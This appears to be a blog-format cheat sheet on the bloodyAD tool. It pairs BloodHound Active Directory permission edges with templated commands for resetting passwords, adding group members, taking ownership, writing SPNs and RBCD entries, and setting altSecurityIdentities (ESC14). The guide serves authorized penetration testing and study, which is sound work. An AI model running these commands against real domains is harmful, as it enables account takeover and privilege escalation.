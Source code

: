 ```yaml
---
layout: post
title: "bloodyAD Reference Guide"
date: 2025-08-15
categories: CheatSheets
---
```


#### bloodyAD
 
**Notes**
    - Pass -k to use kerberos authentication
    - You can pass a user hash instead of a password using -p :hash
    - Specify format for ‘–password’ or ‘-k ‘ using -f, e.g. -f rc4
    - Can be finicky and may have to update clockskew, attempt commands mult times, as well as attempt exploit chains in rapid succession

##### BloodHound Edges to bloodyAD Commands

| **BloodHound Edge**   | **Action**                             | **bloodyAD Command**                                                                                                                       |
| --------------------- | -------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| **GenericAll**        | Full Control                           | `bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username`                                             |
|                       | Reset Password                         | `bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password`                                     |
|                       | Modify UPN                             | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user userPrincipalName -v $new_upn`                           |
|                       | Modify Mail                            | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local`                              |
|                       | Enable Disabled Account                | `bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE`                                   |
|                       | Add RBCD Entry                         | `bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'`                                        |
|                       | Set altSecurityIdentities (ESC14)      | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'` |
|                       | Add to Group                           | `bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add`                                      |
|                       | Set SPN                                | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'`                        |
|                       | Set Owner                              | `bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username`                                        |
|                       | Restore Deleted Object                 | `bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore`                                                 |
| **GenericWrite**      | Modify UPN                             | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user userPrincipalName -v $new_upn`                           |
|                       | Modify Mail                            | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user mail -v newmail@test.local`                              |
|                       | Set altSecurityIdentities              | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target_user altSecurityIdentities -v 'X509:<RFC822>user@test.local'` |
|                       | Set SPN                                | `bloodyAD --host $dc -d $domain -u $username -p $password set object $target servicePrincipalName -v 'domain/meow'`                        |
|                       | Enable Disabled Account                | `bloodyAD --host $dc -d $domain -u $username -p $password remove uac $target_username -f ACCOUNTDISABLE`                                   |
|                       | Add RBCD Entry                         | `bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'`                                        |
|                       | Reset Password                         | `bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password`                                     |
| **WriteOwner**        | Take Ownership                         | `bloodyAD --host $dc -d $domain -u $username -p $password set owner $target_group $target_username`                                        |
| **WriteDACL**         | Grant GenericAll                       | `bloodyAD --host $dc -d $domain -u $username -p $password add genericAll $DN $target_username`                                             |
|                       | Add RBCD Entry                         | `bloodyAD --host $dc -d $domain -u $username -p $password add rbcd 'DELEGATE_TO$' 'DELEGATE_FROM$'`                                        |
|                       | Restore Deleted Object                 | `bloodyAD --host $dc -d $domain -u $username -p $password -k set restore $user_to_restore`                                                 |
| **AddMember**         | Add User to Group                      | `bloodyAD --host $dc -d $domain -u $username -p $password add groupMember $group_name $member_to_add`                                      |
| **AllExtendedRights** | Reset Password                         | `bloodyAD --host $dc -d $domain -u $username -p $password set password $target_username $new_password`                                     |